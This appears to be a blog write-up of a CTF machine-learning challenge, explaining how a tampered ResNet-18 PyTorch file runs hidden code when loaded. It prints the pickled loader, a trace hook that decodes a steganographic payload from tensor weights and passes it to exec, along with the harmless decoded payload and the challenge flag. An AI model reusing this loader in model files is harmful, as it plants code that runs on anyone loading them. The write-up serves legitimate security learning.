 ```yaml
---
title: "🧠 Crystal Corruption"
date: 2025-03-25T11:05:16+01:00
author: "Sirius14"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: CyberApocalypse HTB 2025 Machine Learning challenge
summary:  CyberApocalypse HTB 2025 Machine Learning challenge
disableHLJS: false # to disable highlightjs
disableShare: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: false
ShowPostNavLinks: false
ShowWordCount: false
ShowRssButtonInSectionTermList: false
UseHugoToc: true
pygmentsUseClasses: true
pygmentsCodeFences: true
---
```


In the Library of Loria, an ancient crystal (resnet18.pth) containing a magical machine learning model was activated. Unknown to the mage who awakened it, the artifact had been tampered with by Malakar’s followers, embedding malicious enchantments. As Eldoria’s forensic mage, analyze the corrupted model file, uncover its hidden payload, and extract the flag to dispel the dark magic.

# First look

The model we have is malicious, so we need to identify the backdoor. The model file is named `resnet18.pth`, so let's use the ResNet-18 architecture to load it:

```py
#!/usr/bin/python3
import torch
import torch.nn as nn
import torchvision.models as models

model = models.resnet18()

model_path = "resnet18.pth"

try:
    model.load_state_dict(torch.load(model_path))
    print("ResNet-18 model loaded successfully.")
except FileNotFoundError:
    print(f"Model file '{model_path}' not found.")
except Exception as e:
    print(f"Error loading model: {e}")
```

After loading the model, we get the following output:

```
Connecting to 127.0.0.1
Delivering payload to 127.0.0.1
Executing payload on 127.0.0.1
You have been pwned!
ResNet-18 model loaded successfully.
```

Clearly, there is a backdoor !

# Dig deeper

After some research on remote code execution (RCE) vulnerabilities in PyTorch, I found this [blog post](https://medium.com/@piyushbhor22/the-dark-side-of-ai-inside-pytorchs-unpatched-vulnerabilities-0d8ce74fc9b5), which explains that a Python object can be hidden inside data.pkl. Since PyTorch model files are essentially ZIP archives, we can extract and inspect data.pkl.

Upon opening data.pkl, we find the following Python code:

```py
import torch

def stego_decode(tensor, n=3):
    import struct
    import hashlib
    import numpy

    bits = numpy.unpackbits(tensor.view(dtype=numpy.uint8))
    payload = numpy.packbits(numpy.concatenate([numpy.vstack(tuple([bits[i::tensor.dtype.itemsize * 8] for i in range(8-n, 8)])).ravel("F")])).tobytes()
    (size, checksum) = struct.unpack("i 64s", payload[:68])
    message = payload[68:68+size]

    return message

def call_and_return_tracer(frame, event, arg):
    global return_tracer
    global stego_decode
    def return_tracer(frame, event, arg):
        if torch.is_tensor(arg):
            payload = stego_decode(arg.data.numpy(), n=3)
            if payload is not None:
                sys.settrace(None)
                exec(payload.decode("utf-8"))

    if event == "call" and frame.f_code.co_name == "_rebuild_tensor_v2":
        frame.f_trace_lines = False
        return return_tracer
```

We have found the function responsible for executing the RCE!

# Retreive original payload

The final step is to retrieve the payload, which appears to be embedded in the model’s weights. We can extract it using the `stego_decode` function:

```py
with torch.no_grad():
    for name, layer in model.named_children():
        print(stego_decode(layer.weight.numpy()))
```

Executing this code reveals the hidden payload:

```
b'import os\r\n\r\ndef exploit():\r\n    connection = f"Connecting to 127.0.0.1"\r\n    payload = f"Delivering payload to 127.0.0.1"\r\n    result = f"Executing payload on 127.0.0.1"\r\n\r\n    print(connection)\r\n    print(payload)\r\n    print(result)\r\n\r\n    print("You have been pwned!")\r\n\r\nhidden_flag = "HTB{n3v3r_tru5t_p1ckl3_m0d3ls}"\r\n\r\nexploit()'
```

And we successfully retrieve the flag!

Flag was __HTB{n3v3r_tru5t_p1ckl3_m0d3ls}__
